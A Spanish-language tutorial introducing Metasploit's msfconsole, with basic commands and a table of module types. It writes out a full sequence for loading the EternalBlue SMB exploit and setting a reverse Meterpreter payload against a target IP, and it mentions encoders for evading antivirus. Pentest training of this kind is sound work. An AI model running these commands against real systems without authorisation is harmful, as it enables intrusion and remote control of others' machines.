 ## 🔥 **¿Qué es `msfconsole` en Metasploit?**

`msfconsole` es la **interfaz principal** de **Metasploit Framework (MSF)**, una herramienta de pentesting que permite realizar ataques, explotación de vulnerabilidades, post-explotación y mucho más.

Es el **corazón de Metasploit**, ya que desde aquí puedes: ✅ Escanear redes y enumerar servicios.  
✅ Buscar y ejecutar exploits.  
✅ Cargar payloads para tomar control de un sistema.  
✅ Usar módulos auxiliares para escaneo, fuerza bruta, etc.  
✅ Administrar sesiones con `meterpreter`.

---

## 🚀 **Cómo iniciar `msfconsole`**

Para abrir `msfconsole`, simplemente ejecuta en la terminal:

`msfconsole`

Después de cargar, verás el prompt de Metasploit:

`msf >`

Desde aquí puedes ejecutar comandos para interactuar con los módulos y herramientas de Metasploit.

---

## 🛠️ **Comandos Básicos en `msfconsole`**

### 🔹 **1. Buscar exploits y módulos**

`search windows search smb search exploit android`

💡 **Filtra por tipo de exploit, servicio o sistema operativo**.

---

### 🔹 **2. Usar un módulo**

`use exploit/windows/smb/ms17_010_eternalblue`

💡 **Carga el exploit para atacar una vulnerabilidad en SMB**.

---

### 🔹 **3. Mostrar información sobre un módulo**

`info exploit/windows/smb/ms17_010_eternalblue`

💡 **Ver detalles del exploit, puertos, requisitos, opciones configurables**.

---

### 🔹 **4. Configurar opciones de un módulo**

`set RHOSTS 192.168.1.100 set LHOST 192.168.1.50 set PAYLOAD windows/meterpreter/reverse_tcp`

💡 **Define la IP del objetivo (`RHOSTS`) y tu IP (`LHOST`)**.

---

### 🔹 **5. Ejecutar un exploit**

`exploit`

o

`run`

💡 **Ejecuta el ataque con la configuración establecida**.

---

### 🔹 **6. Mostrar sesiones activas**

`sessions -l`

💡 **Lista sesiones activas si lograste comprometer un sistema**.

---

### 🔹 **7. Conectarse a una sesión `meterpreter`**

`sessions -i 1`

💡 **Interactúa con la sesión número 1 (puede variar)**.

---

## 📌 **Estructura de Metasploit (`msfconsole`)**

Metasploit tiene diferentes **tipos de módulos**, y `msfconsole` permite administrarlos todos:

| Tipo          | Descripción                                             |
| ------------- | ------------------------------------------------------- |
| **Exploit**   | Código que aprovecha una vulnerabilidad en un sistema.  |
| **Payload**   | Código ejecutado tras la explotación (ej. Meterpreter). |
| **Auxiliary** | Módulos que ayudan en escaneo, enumeración, etc.        |
| **Post**      | Módulos para mantener acceso o extraer información.     |
| **Encoders**  | Ofuscan payloads para evadir antivirus.                 |
| **Nops**      | Relleno para evitar detección en exploits.              |